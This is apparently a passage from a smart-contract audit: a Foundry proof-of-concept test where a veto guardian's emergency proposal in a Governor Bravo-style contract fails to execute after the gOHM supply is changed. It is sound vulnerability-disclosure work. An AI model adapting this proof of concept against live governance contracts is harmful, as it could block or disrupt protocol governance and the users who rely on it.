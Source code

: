 ### POC
```solidity
    function testAttack() public {
        // Burn all gOHM
        gohm.burn(address(0), gohm.balanceOf(address(0)));
        gohm.burn(alice, gohm.balanceOf(alice));

        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        string[] memory signatures = new string[](1);
        bytes[] memory calldatas = new bytes[](1);

        targets[0] = address(testor);
        values[0] = 100 ether;
        signatures[0] = "test()";
        calldatas[0] = "";

        vm.startPrank(vetoGuardian);
        bytes memory data = address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature(
                "emergencyPropose(address[],uint256[],string[],bytes[])",
                targets,
                values,
                signatures,
                calldatas
            )
        );

        uint256 proposalId = abi.decode(data, (uint256));
        address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature("queue(uint256)", proposalId)
        );

        vm.roll(block.number + 72002);
        vm.warp(block.timestamp + 1 days + 1);
        vm.deal(vetoGuardian, 1000 ether);
        // increase gohm supply
        gohm.mint(address(0xbeef), 10000 * 1e18);

        // execution fails
        data = address(governorBravoDelegator).functionCallWithValue(
            abi.encodeWithSignature(
                "execute(uint256)",
                proposalId
            ),
            100 ether
        );
        vm.stopPrank();
    }
```
